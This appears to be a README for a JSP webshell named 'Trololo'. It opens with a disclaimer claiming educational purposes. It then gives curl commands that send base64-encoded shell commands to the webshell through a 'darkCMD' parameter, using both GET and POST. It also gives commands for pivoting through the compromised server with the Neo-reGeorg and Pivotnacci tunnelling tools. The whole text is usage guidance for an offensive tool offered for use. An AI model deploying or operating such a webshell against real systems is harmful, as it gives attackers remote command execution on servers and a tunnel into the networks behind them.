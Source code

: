 !!! Disclaimer !!! 

- The authors do not have any responsibility and/or liability for how you will use this information and the source code!
- Everything that anyone can find in this repository is only for educational and research purposes, and the authors have no responsibility for how you will use the data found.

JSP webshell Trololo with pivoting via Neo-reGeorg or Pivotnacci

1) Command exec via GET or POST

command(s) should be encoded in base64 (GET or POST) to support control operators, ex: id && ls -lah /

- curl -s 'http://127.0.0.1:8080/jsp-regeorg.jsp?uuid=form&darkCMD=aWQgJiYgbHMgLWxhaCAvCg=='
- curl -s -X POST -d 'uuid=form&darkCMD=aWQgJiYgbHMgLWxhaCAvCg==' -H 'Content-Type: application/x-www-form-urlencoded' 'http://127.0.0.1:8080/jsp-regeorg.jsp'
- curl -s 'http://127.0.0.1:8080/jsp-pivotnacci.jsp?uuid=form&darkCMD=aWQgJiYgbHMgLWxhaCAvCg=='
- curl -s -X POST -d 'uuid=form&darkCMD=aWQgJiYgbHMgLWxhaCAvCg==' -H 'Content-Type: application/x-www-form-urlencoded' 'http://127.0.0.1:8080/jsp-pivotnacci.jsp'


2.a) Pivoting usage Neo-reGeorg -> jsp-regeorg.jsp

pivoting using Neo-reGeorg (5.0.1), for other versions you have to update the relevant parts in the jsp file

- python neoreg.py -u 'http://127.0.0.1:8080/jsp-regeorg.jsp?uuid=test' -k PASSWORD -vvvvvvvv

2.b) Pivoting usage Pivotnacci -> jsp-pivotnacci.jsp

pivoting using pivotnacci (0.0.2), for other versions you have to update the relevant parts in the jsp file

- pivotnacci http://127.0.0.1:8080/jsp-pivotnacci.jsp --password PASSWORD -vvvv
